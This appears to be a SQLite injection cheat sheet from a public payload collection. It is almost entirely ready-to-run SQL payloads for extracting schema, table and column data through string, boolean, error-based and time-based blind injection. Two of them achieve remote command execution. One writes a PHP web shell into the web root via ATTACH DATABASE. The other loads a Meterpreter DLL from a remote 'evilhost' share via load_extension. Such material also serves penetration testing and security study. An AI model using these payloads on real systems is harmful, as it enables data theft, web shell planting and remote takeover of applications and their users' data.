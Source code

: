 # SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [String based - Extract database structure](#string-based---extract-database-structure)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Boolean - Error based](#boolean---error-based)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)
## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## String based - Extract database structure

```sql
SELECT sql FROM sqlite_schema
```

## Integer/String based - Extract table name

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```
## Integer/String based - Extract specific data

```sql
SELECT 'column_name' FROM 'table_name' WHERE 'column_name'='column_entry' '
```
For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

Cleaner output

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Boolean - Extract info (order by)

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## Boolean - Error based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```


## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
[SQLite Error Based Injection for Enumeration](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
